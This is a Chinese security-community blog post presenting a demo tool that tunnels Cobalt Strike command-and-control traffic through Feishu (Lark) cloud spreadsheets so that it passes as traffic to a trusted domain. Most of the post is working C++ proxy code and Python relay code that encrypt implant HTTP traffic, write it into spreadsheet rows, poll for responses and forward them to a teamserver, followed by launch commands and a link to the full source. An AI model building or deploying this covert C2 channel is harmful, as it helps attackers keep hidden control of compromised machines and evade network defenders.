









# 基于飞书云文档实现C2的流量转发(demo)-先知社区

> **来源**: https://xz.aliyun.com/news/18562  
> **文章ID**: 18562

---

那实际上就是利用飞书云文档 实现了流量转发的这么一个东西 使得流量全走可信域名 这里实现的是图示的converter



在受控端和teamserver各自部署了本地代理服务，这两个服务负责拦截并转发HTTP请求与响应，从而实现了流量的转发

这里只是针对cs流量实现的一个简单demo 大部分功能均可用 涉及大数据包超过飞书API限制的 没做分块处理会直接失败 demo嘛,图一乐就行

没研究过brc4的通信 大部分功能不可使用

## 效果

大概效果如下







## 客户端

通过curl封装了一些飞书表格交互的函数

```
class FeishuAPI {
private:
    std::string app_id;
    std::string app_secret;
    std::string access_token;
    std::string base_url;
    std::unique_ptr<HttpClient> http_client;
    
    // 获取访问令牌
    bool getAccessToken();
    
    // 构建请求头
    std::vector<std::string> buildHeaders(bool needAuth = true);
    
public:
    FeishuAPI(const std::string& app_id, const std::string& app_secret);
    ~FeishuAPI();
    
    // v2 写入接口，用户传入范围和二维 values
    bool writeToSpreadsheet(
        const std::string& spreadsheet_token,
        const std::string& sheet_id,
        const std::string& range,
        const std::vector<std::vector<std::string>>& values
    );

    // 通过wikitoken获取spreadsheet_token
    std::string getSpreadsheetTokenByWiki(const std::string& wikitoken);

    // 通过spreadsheet_token获取所有sheet的sheetId
    std::vector<std::string> getSheetIds(const std::string& spreadsheet_token);
    
    // 读取指定行的响应数据
    std::string getResponseData(const std::string& spreadsheet_token, const std::string& sheet_id, int row_id);

    bool clearSpreadsheetAndSetHeaders(const std::string& spreadsheet_token, const std::string& sheet_id);
}; 
```

监听本地端口 将数据包加密传到飞书

```
void ProxyServer::acceptConnections() {
    try {
        initializeWinsock();
        createSocket();
        bindSocket();
        listenForConnections();
        
        INFO_PRINT_PREFIX("ProxyServer", "Proxy server listening on port " + std::to_string(port) + "...");
        
        if (!initializeFeishuAPI()) {
            ERROR_PRINT_PREFIX("ProxyServer", "Failed to initialize Feishu API, server will continue without spreadsheet functionality");
        }
        
        while (running) {
            SOCKET clientSocket = accept(listenSocket, NULL, NULL);
            if (clientSocket == INVALID_SOCKET) {
                if (running) {
                    ERROR_PRINT_PREFIX("ProxyServer", "Accept failed: " + std::to_string(WSAGetLastError()));
                }
                continue;
            }
            
            std::thread clientThread(&ProxyServer::handleClient, this, clientSocket);
            clientThread.detach();
        }
    }
    catch (const std::exception& e) {
        ERROR_PRINT_PREFIX("ProxyServer", "Server error: " + std::string(e.what()));
        stop();
    }
}

void ProxyServer::handleClient(SOCKET clientSocket) {
    std::vector<char> buffer(8192);
    int bytesReceived = recv(clientSocket, buffer.data(), buffer.size(), 0);
    
    if (bytesReceived > 0) {
        std::string request(buffer.data(), bytesReceived);
        
        DEBUG_PRINT_PREFIX("ProxyServer", "Received HTTP request (" + std::to_string(bytesReceived) + " bytes):");
        DEBUG_PRINT(request);
        
        DEBUG_PRINT_PREFIX("ProxyServer", "=== REQUEST ANALYSIS ===");
        std::istringstream requestStream(request);
        std::string line;
        if (std::getline(requestStream, line)) {
            DEBUG_PRINT_PREFIX("ProxyServer", "Request line: " + line);
        }
        
        int headerCount = 0;
        while (std::getline(requestStream, line) && !line.empty() && line != "\r" && headerCount < 5) {
            DEBUG_PRINT_PREFIX("ProxyServer", "Header: " + line);
            headerCount++;
        }
        DEBUG_PRINT_PREFIX("ProxyServer", "=== END REQUEST ANALYSIS ===");
        
        std::string encrypted = Crypto::encrypt(request, encryptionKey);
        
        DEBUG_PRINT_PREFIX("ProxyServer", "Encrypted data:");
        DEBUG_PRINT(Crypto::toHexString(encrypted));

        auto now = std::chrono::system_clock::now();
        auto time_t = std::chrono::system_clock::to_time_t(now);
        std::stringstream timeStream;
        timeStream << std::put_time(std::localtime(&time_t), "%Y-%m-%d %H:%M:%S");
        std::string timestamp = timeStream.str();

        try {
            // 使用已初始化的飞书API配置
            if (spreadsheet_token.empty() || sheet_id.empty()) {
                ERROR_PRINT_PREFIX("ProxyServer", "Feishu API not initialized, cannot process request");
                return;
            }

            FeishuAPI LarkAPI(feishu_app_id, feishu_app_secret);

            int currentRowId;
            {
                std::lock_guard<std::mutex> lock(idMutex);
                currentRowId = currentId.load();
            }

            std::string range = "A" + std::to_string(currentRowId) + ":B" + std::to_string(currentRowId);

            std::vector<std::vector<std::string>> data = {
                {std::to_string(currentRowId), Crypto::toHexString(encrypted)}
            };

            bool isSuccess = LarkAPI.writeToSpreadsheet(
                spreadsheet_token,
                sheet_id,
                range,
                data
            );

            if (isSuccess) {
                INFO_PRINT_PREFIX("ProxyServer", "Data written successfully to spreadsheet at row " + std::to_string(currentRowId));

                currentId.fetch_add(1);
                
                INFO_PRINT_PREFIX("ProxyServer", "Waiting for response at row " + std::to_string(currentRowId));
                
                const int pollInterval = 2000; // 轮询 每2秒检查一次
                int pollCount = 0;
                bool responseSent = false;
                
                while (!responseSent) {
                    std::this_thread::sleep_for(std::chrono::milliseconds(pollInterval));
                    pollCount++;
                    
                    int error = 0;
                    int len = sizeof(error);
                    if (getsockopt(clientSocket, SOL_SOCKET, SO_ERROR, (char*)&error, &len) != 0 || error != 0) {
                        ERROR_PRINT_PREFIX("ProxyServer", "Socket error detected: " + std::to_string(error));
                        break;
                    }
                    
                    fd_set write_fds;
                    FD_ZERO(&write_fds);
                    FD_SET(clientSocket, &write_fds);
                    
                    struct timeval timeout;
                    timeout.tv_sec = 0;
                    timeout.tv_usec = 100000; 
                    
                    int select_result = select(0, NULL, &write_fds, NULL, &timeout);
                    if (select_result <= 0) {
                        ERROR_PRINT_PREFIX("ProxyServer", "Socket not writable, client may have disconnected");
                        break;
                    }
                    
                    std::string encryptedResponse = LarkAPI.getResponseData(spreadsheet_token, sheet_id, currentRowId);
                    
                    if (!encryptedResponse.empty()) {
                        INFO_PRINT_PREFIX("ProxyServer", "Received response for row " + std::to_string(currentRowId) + " after " + std::to_string(pollCount * pollInterval) + " seconds");
                        
                        try {
                            std::string decryptedResponse = Crypto::decrypt(encryptedResponse, encryptionKey);
                            
                            DEBUG_PRINT_PREFIX("ProxyServer", "Decrypted response (" + std::to_string(decryptedResponse.length()) + " bytes):");
                            DEBUG_PRINT(decryptedResponse);
                            
                           
                            DEBUG_PRINT_PREFIX("ProxyServer", "=== RESPONSE ANALYSIS ===");
                            std::istringstream responseStream(decryptedResponse);
                            std::string responseLine;
                            int responseHeaderCount = 0;
                            
                            while (std::getline(responseStream, responseLine) && responseHeaderCount < 10) {
                                DEBUG_PRINT_PREFIX("ProxyServer", "Response line: " + responseLine);
                                responseHeaderCount++;
                                if (responseLine.empty() || responseLine == "\r") {
                                    DEBUG_PRINT_PREFIX("ProxyServer", "End of headers, body follows...");
                                    break;
                                }
                            }
                            DEBUG_PRINT_PREFIX("ProxyServer", "=== END RESPONSE ANALYSIS ===");
                            
                            if (decryptedResponse.substr(0, 4) == "HTTP") {
                                INFO_PRINT_PREFIX("ProxyServer", "Valid HTTP response detected");
                            } else {
                                WARNING_PRINT_PREFIX("ProxyServer", "Response does not appear to be HTTP format");
                            }
                            
                            DEBUG_PRINT_PREFIX("ProxyServer", "Testing client connection before sending response...");
                            int testResult = send(clientSocket, "", 0, 0);
                            if (testResult == SOCKET_ERROR) {
                                int testError = WSAGetLastError();
                                ERROR_PRINT_PREFIX("ProxyServer", "Client disconnected, cannot send response. Error: " + std::to_string(testError));
                                break;
                            }
                            DEBUG_PRINT_PREFIX("ProxyServer", "Client still connected, proceeding to send response");
                            
                            int bytesSent = send(clientSocket, decryptedResponse.c_str(), decryptedResponse.length(), 0);
                            if (bytesSent > 0) {
                                INFO_PRINT_PREFIX("ProxyServer", "Response sent to client for row " + std::to_string(currentRowId) + " (" + std::to_string(bytesSent) + " bytes)");
                                
                                if (bytesSent == decryptedResponse.length()) {
                                    INFO_PRINT_PREFIX("ProxyServer", "Full response sent successfully");
                                } else {
                                    WARNING_PRINT_PREFIX("ProxyServer", "Partial response sent: " + std::to_string(bytesSent) + "/" + std::to_string(decryptedResponse.length()) + " bytes");
                                }
                                
                                responseSent = true;
                            } else {
                                int sendError = WSAGetLastError();
                                ERROR_PRINT_PREFIX("ProxyServer", "Failed to send response to client for row " + std::to_string(currentRowId) + ", error: " + std::to_string(sendError));
                                
                                std::this_thread::sleep_for(std::chrono::milliseconds(100));
                                bytesSent = send(clientSocket, decryptedResponse.c_str(), decryptedResponse.length(), 0);
                                if (bytesSent > 0) {
                                    INFO_PRINT_PREFIX("ProxyServer", "Retry successful: Response sent to client for row " + std::to_string(currentRowId) + " (" + std::to_string(bytesSent) + " bytes)");
                                    responseSent = true;
                                } else {
                                    sendError = WSAGetLastError();
                                    ERROR_PRINT_PREFIX("ProxyServer", "Retry also failed, error: " + std::to_string(sendError));
                                    break;
                                }
                            }
                            
                        } catch (const std::exception& e) {
                            ERROR_PRINT_PREFIX("ProxyServer", "Error decrypting response: " + std::string(e.what()));
                        }
                    }
                    
                    DEBUG_PRINT_PREFIX("ProxyServer", "Still waiting for response... (poll #" + std::to_string(pollCount) + ", " + std::to_string(pollCount * pollInterval) + "s elapsed)");
                }
                
                if (!responseSent) {
                    ERROR_PRINT_PREFIX("ProxyServer", "Failed to send response to client for row " + std::to_string(currentRowId));
                }
                
            } else {
                ERROR_PRINT_PREFIX("ProxyServer", "Failed to write data to spreadsheet at row " + std::to_string(currentRowId));
            }
        } catch (const std::exception& e) {
            ERROR_PRINT_PREFIX("ProxyServer", "Error writing to spreadsheet: " + std::string(e.what()));
        }
    }
    
    closesocket(clientSocket);
} 


```





同时轮询`response`列 等待`response` 当轮询到后解密 通过socket返回response

## 服务端

轮询`request` 轮询到后解密 构造数据包发送给teamserver



```
def _poll_for_changes(self):
        """轮询检查变化 - 并发处理"""
        current_id = self.last_processed_id + 1
        
        while self.running:
            try:
                self._check_completed_tasks()
                
                self._submit_new_tasks(current_id)
                
                while current_id in self.processing_tasks:
                    current_id += 1
                
                time.sleep(self.poll_interval)
                    
            except Exception as e:
                logging.error(f"Error in polling loop: {e}")
                time.sleep(self.poll_interval)
                
                
def _submit_new_tasks(self, start_id: int):
        """提交新的任务到线程池"""
        current_id = start_id
        
        max_new_tasks = 3
        submitted_count = 0
        
        while submitted_count < max_new_tasks and len(self.processing_tasks) < 5:
            data = self._get_current_data(current_id)
            
            if data and data['id'] == str(current_id) and data['encrypted_data']:
                if current_id not in self.processing_tasks:
                    logging.info(f"Found new data at row {current_id}")
                    
                    if self._process_row(current_id):
                        submitted_count += 1
                    else:
                        logging.warning(f"Failed to submit task for row {current_id}")
                        break
                else:
                    # 这个ID已经在处理中，跳过
                    current_id += 1
                    continue
            else:
                # 没有新数据，退出循环
                break
            
            current_id += 1
```

## 使用

表格记得给机器人开权限 然后拿到机器人的appId appSecret 及表的token




`LarkProxy.exe --port 18080 --app-id xxxxxxxxx --app-secret xxxxxxxxx --wiki-token xxxxxxxxx --encryption-key "xxxxxxxxx"`

`python3 run_server.py --app-id xxxxxxxxx --app-secret xxxxxxxxx --wiki-token xxxxxxxxx --encryption-key`

listener配置如下



### lib调用

需要编译成lib的话vs设置一下配置类型

然后添加一个`LARKPROXY_EXPORTS`的宏

然后包含`LarkProxy.h`

调LarkProxy::startProxyServer方法就好了

用vcpkg装一下静态的libcurl

## 完整代码

完整代码见 <https://github.com/Arcueld/LarkProxy>
